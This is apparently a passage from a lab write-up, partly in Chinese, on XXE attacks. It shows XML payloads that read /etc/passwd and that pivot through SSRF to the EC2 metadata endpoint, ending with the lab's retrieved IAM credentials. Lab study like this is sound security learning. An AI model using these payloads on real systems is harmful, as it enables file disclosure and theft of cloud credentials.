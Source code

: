 ```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck><productId>&xxe;</productId><storeId></storeId></stockCheck>
```

#### 2. Exploiting XXE to perform SSRF attacks

> In the following XXE example, the external entity will cause the server to make a back-end HTTP request to an internal system within the organization's infrastructure:
> 
> ```
> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
> ```
> The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck><productId>&xxe;</productId><storeId></storeId></stockCheck>
```

返回了："Invalid product ID: latest"

说明下一个端点是`latest`。

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]>
<stockCheck><productId>&xxe;</productId><storeId></storeId></stockCheck>
```

返回了："Invalid product ID: meta-data"

下一个端点是`meta-data`。如此重复：

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId></storeId></stockCheck>
```

终于得到了隐私数据：

```json
{
  "Code" : "Success",
  "LastUpdated" : "2021-03-04T12:51:59.247978Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "zodWGVQ6CKBdfFlsEnxV",
  "SecretAccessKey" : "Yp60oiSgy08Or8SZIJF0WezmLq8bGsrcJca3NmJC",
  "Token" : "7KK9d7RFwklad1YKdQWClYyDOLoiuatCEYnwrIn2jYxDtCTL5Hby6WtW3PFOAX28GYQEKP2fiGpNBXWErJF60HMuH9CI08E7NwVpOelqUkhRSszL8aeZy3DIpi9eahldQzHYdLvAnYOJ0L2xLToH3SJjoGwrIfqx59JpwiR9NzhMGnEHw7s60nYCue4DDpetKqXNKhjuZ1Fwix5RU2lpLZ1toSBrkJ8oVAebPcFn4HdfunTZC5Afc2DXcRaQXDQq",
  "Expiration" : "2027-03-03T12:51:59.247978Z"
}
```
